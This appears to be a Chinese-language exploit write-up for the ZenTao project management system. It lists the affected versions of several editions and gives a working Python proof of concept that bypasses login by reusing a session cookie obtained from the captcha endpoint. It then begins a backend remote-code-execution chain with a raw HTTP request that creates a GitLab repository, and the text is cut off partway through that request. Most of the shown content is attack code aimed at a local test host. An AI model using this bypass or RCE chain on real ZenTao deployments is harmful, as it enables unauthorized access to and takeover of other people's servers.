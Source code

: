   1. 杭州易软共创网络科技有限公司 禅道项目管理系统 >=17.4，<=18.0.beta1（开源版）
  2. 杭州易软共创网络科技有限公司 禅道项目管理系统 >=7.4，<=8.0.beta1（企业版）
  3. 杭州易软共创网络科技有限公司 禅道项目管理系统 >=3.4，<=4.0.beta1（旗舰版）

 **利用方法：**  
权限绕过poc

    
    
    import requests  
      
    header={  
        'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5408.146 Safari/537.36',  
    }  
      
    def bypasscookie(url,session):  
        target=url+"/index.php?m=misc&f=captcha&sessionVar=user"  
        r=session.get(target,headers=header)  
        zentaosid=r.cookies.get_dict()['zentaosid']  
        print(zentaosid)  
      
        header["Cookie"]="zentaosid="+zentaosid  
        resp=session.get(url+"/index.php?m=my&f=index",headers=header)  
        if "/shandao/www/index.php?m=user&f=login" not in resp.text:  
            print("绕过登陆验证")  
        else:  
            print("无法绕过验证")  
      
      
      
    if __name__ == '__main__':  
        url="http://127.0.0.1:8081/shandao/www/"  
        session=requests.Session()  
        bypasscookie(url,session)  
    

后台RCE：  
先创建Gitlab代码库,拿到repoID

    
    
    POST /shandao/www/index.php?m=repo&f=create&objectID=0&tid=rmqcl0ss HTTP/1.1  
    Host: 127.0.0.1:8081  
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0  
    Accept: application/json, text/javascript, */*; q=0.01  
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
    Accept-Encoding: gzip, deflate  
    Referer: http://127.0.0.1:8081/shandao/www/index.php?m=repo&f=create&objectID=0&tid=rmqcl0ss  
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8  
    X-Requested-With: XMLHttpRequest  
    Content-Length: 144  
    Origin: http://127.0.0.1:8081  
    Connection: close  
    Cookie: lang=zh-cn; device=desktop; theme=default; tab=devops; preCaseLibID=1; lastCaseLib=1; checkedItem=; goback=%7B%22devops%22%3A%22http%3A%5C%2F%5C%2F127.0.0.1%3A8081%5C%2Fshandao%5C%2Fwww%5C%2Findex.php%3Fm%3Drepo%26f%3Dbrowse%26repoID%3D1%26branchID%3D%26objectID%3D0%26tid%3Dvwy3ton6%22%7D; zentaosid=r3094u5448167shtdrur4c7b6q; repoBranch=master; windowWidth=1453; windowHeight=844  
    Sec-Fetch-Dest: empty  
    Sec-Fetch-Mode: cors  
    Sec-Fetch-Site: same-origin  
      